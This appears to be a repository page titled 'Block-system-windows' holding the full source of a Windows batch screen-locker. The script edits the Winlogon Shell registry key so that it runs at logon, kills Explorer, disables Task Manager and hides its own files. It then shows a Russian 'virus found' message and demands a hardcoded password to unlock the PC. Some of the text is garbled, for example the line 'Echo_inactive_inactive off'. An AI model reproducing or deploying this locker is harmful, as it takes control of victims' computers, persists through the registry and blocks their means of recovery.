 # Block-system-windows
[SRC] Echo_inactive_inactive off CHCP 1251 cls Set Yvaga=На вашем компьютере найден вирус. Set pass=Пароль Set pas=Введите пароль. Set virus=Чтобы разблокировать ПК вам потребуется ввести пароль Set dim=Выключаю вирус... title Внимание!!! CHCP 866 IF EXIST C:\windows\boot.bat ( goto ok ) cls IF NOT EXIST C:\windows\boot.bat ( ECHO Windows Registry Editor Version 5.00 >> C:\0.reg ECHO. >> C:\0.reg ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >> C:\0.reg ECHO. >> C:\0.reg ECHO "Shell"="Explorer.exe, C:\\windows\\boot.bat " >> C:\0.reg start/wait regedit -s C:\0.reg del C:\0.reg ECHO Echo_inactive_inactive off >>C:\windows\boot.bat ECHO C:\WINDOWS\system32\taskkill.exe /f /im Explorer.exe >>C:\windows\boot.bat ECHO reg add "HKCU\software\Microsoft\Windows\CurrentVersion\Policies\system" /v DisableTaskMgr /t REG_DWORD /d 1 /f >>C:\windows\boot.bat ECHO start sys.bat >>C:\windows\boot.bat attrib +r +a +s +h C:\windows\boot.bat copy virus.bat c:\windows\sys.bat attrib +r +a +s +h C:\windows\sys.bat GOTO end) :ok cls Echo %Yvaga% echo. echo %virus% echo %pas% set /a choise = 0 set /p choise=%pass%: if "%choise%" == "101" goto gold if "%choise%" == "200393" goto status exit :status echo %dim% attrib -r -a -s -h C:\windows\boot.bat del C:\windows\boot.bat attrib -r -a -s -h C:\windows\sys.bat del C:\windows\sys.bat cls :gold start C:\ :end [/SRC]
